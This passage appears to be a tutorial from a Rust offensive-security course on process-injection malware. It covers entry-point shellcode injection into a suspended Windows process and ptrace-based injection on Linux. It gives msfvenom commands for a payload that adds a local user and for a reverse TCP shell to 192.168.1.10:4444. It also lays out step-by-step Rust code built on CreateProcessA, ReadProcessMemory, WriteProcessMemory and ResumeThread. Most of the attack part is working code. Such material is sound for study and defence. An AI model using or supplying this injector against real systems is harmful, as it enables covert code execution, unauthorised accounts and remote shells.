



This technique involves creating a process, putting it in a suspended state, and replacing the code at the process entry point with shellcode. In our example, we create a local user on the targeted machine (Windows) and launch a reverse shell in the case of our Linux program. The code will be generated by msfvenom msfvenom -p windows/x64/exec CMD="net user /add kev_user" -f rust and msfvenom -p linux/x64/shell_reverse_tcp -f rust LHOST=192.168.1.10 LPORT=4444. To help you understand, here is a diagram:

To develop this program, we once again rely on the Windows API with the associated documentation we have already covered in previous sections. After creating a new project with cargo new, you can populate your Cargo.toml with these dependencies:
anyhow = 1.0.79colored = 2.1.0windows = {version = "0.52.0", features = ["Wdk_System_Threading", "Win32_Foundation", "Win32_Security", "Win32_System_Diagnostics_Debug", "Win32_System_Kernel", "Win32_System_Threading"]}In your main.rs, you can declare the crates as follows:
use anyhow::{anyhow, Ok, Result};
use colored::*;
use core::ffi::c_void;
use std::ptr;
use std::{thread, time};
use windows::core::{PCSTR, PSTR};
use windows::Wdk::System::Threading::{NtQueryInformationProcess, PROCESSINFOCLASS};
use windows::Win32::System::Diagnostics::Debug::{ReadProcessMemory, WriteProcessMemory};
use windows::Win32::System::Threading::{
CreateProcessA, ResumeThread, CREATE_SUSPENDED, PROCESS_BASIC_INFORMATION, PROCESS_INFORMATION,
STARTUPINFOA,
};
Summary of Actions Performed by Our Program:
CreateProcessA, which can be a cmd, notepad, or anything else. Its state will be set to "suspended" while we make our modifications.NtQueryInformationProcess, such as the base address of the Process Environment Block (PEB). This element contains information like data structures, process startup parameters, and the base address of the program image.ReadProcessMemory, verify the conformity of our executable via its magic bytes (MZ in our case), and retrieve data such as header addresses and the entry point (actual starting address of program execution).WriteProcessMemory with our shellcode.ResumeThread.Within the code, we also add the shellcode, check for errors at each key point using the anyhow crate, include sleeps to allow time to see the execution of each part one after another, and return an Ok(()) to indicate that the program executed successfully. Prints of each execution part have been added for the lesson, but they can obviously be removed.
Our shellcode will be contained in the variable 'shellcode' as a byte array. A variable to hold program information will be declared as type PROCESS_INFORMATION. Finally, the created suspended process will be indicated as a pointer. An "unsafe" block will be necessary to use most Windows API functions, including our CreateProcessA:
let mut process_info = PROCESS_INFORMATION::default();
let program_called = PSTR::from_raw("C:\\Windows\\System32\\cmd.exe".to_string().as_mut_ptr());
if unsafe {
CreateProcessA(
PCSTR::null(),
program_called,
None,
None,
false,
CREATE_SUSPENDED,
None,
PCSTR::null(),
&STARTUPINFOA::default(),
&mut process_info,
)
}
We then define a handle on our process, a structure to store its information PROCESS_BASIC_INFORMATION, and query the process:
let process_handle = process_info.hProcess;
let mut basic_info = PROCESS_BASIC_INFORMATION::default();
if unsafe {
NtQueryInformationProcess(
process_handle,
PROCESSINFOCLASS::default(),
&mut basic_info as *mut _ as *mut c_void,
8 * 6,
&mut 0_u32,
)
}
We retrieve the image address (the program's entry point), create a buffer to store it, and call ReadProcessMemory:
let image_base_address = basic_info.PebBaseAddress as u64 + 0x10;
let mut address_buffer = [0u8; 1];
if unsafe {
ReadProcessMemory(
process_handle,
image_base_address as *const c_void,
address_buffer.as_mut_ptr() as *mut c_void,
8,
None,
)
}
A second ReadProcessMemory is called to retrieve the DOS headers to verify our program's integrity:
let mut header_buffer = [0_u8; 0x200];
let header_pointer = header_buffer.as_mut_ptr() as usize;
let pe_base_address = unsafe { ptr::read(address_buffer.as_ptr() as *const usize) };
if unsafe {
ReadProcessMemory(
process_handle,
pe_base_address as *const c_void,
header_buffer.as_mut_ptr() as *mut c_void,
0x200,
None,
)
}
The final step follows, we retrieve the program header address and its entry point, then write our shellcode into memory with WriteProcessMemory and resume execution:
let e_lfanew = unsafe { ptr::read((header_pointer + 0x3C) as *const u32) };
let opthdr_offset = e_lfanew as usize + 0x28;
let entry_point = unsafe { ptr::read((header_pointer + opthdr_offset) as *const u32) };
let entry_point_address = entry_point as usize + pe_base_address;
if unsafe {
WriteProcessMemory(
process_handle,
entry_point_address as *const c_void,
shellcode.as_ptr() as *const c_void,
shellcode.len(),
None,
)
}
let resume = unsafe { ResumeThread(process_info.hThread) };
if resume != 1 {
return Err(anyhow!(
"{}",
"[-] Could not resume the suspended cmd.exe's execution".red()
));
}
Ok(())
Once the code is compiled with cross, we can execute it, as shown in the following image, where the user kev_user has been successfully added to the local users of the machine:

You can find the full code in the next section.
Regarding the Linux program, it is much simpler. The following crates should be imported into your Cargo.toml:
colored = 2.1.0nix = { version = "0.27.1", features = ["ptrace"] }In the main.rs, you can declare the following dependencies:
use colored::*;
use nix::sys::ptrace::{detach, getregs, traceme, write};
use nix::sys::wait::waitpid;
use nix::unistd::{execv, fork, ForkResult};
use std::ffi::{c_void, CStr, CString};
use std::{thread, time};
First, we declare our shellcode with the variable let shellcode: [u8; X] where X represents the number of bytes in the shellcode. We used the following command to generate our shellcode: msfvenom -p linux/x64/shell_reverse_tcp -f rust LHOST=192.168.1.10 LPORT=4444, which is a simple reverse TCP shell.
Our program will consist of a large block of code composed of a match unsafe { fork() }. This function is responsible for creating a child process by duplicating the parent process. We then use this process creation via a ForkResult which will contain information about the child and parent processes if the fork() was successful.
The child process must be set as "traceable" to make the necessary modifications for shellcode injection. An executable is then defined (/usr/bin/bash in our case) and will replace our current process via an execve(). We then focus on the parent process, pausing the child process via waitpid() and retrieving its RIP register. This is where the shellcode will be injected. We then resume the execution of the child process via detach(). Sleeps have been integrated to allow easier observation of the attack progression. After execution, we successfully get a shell on the remote machine:

The corresponding code is available in the next section.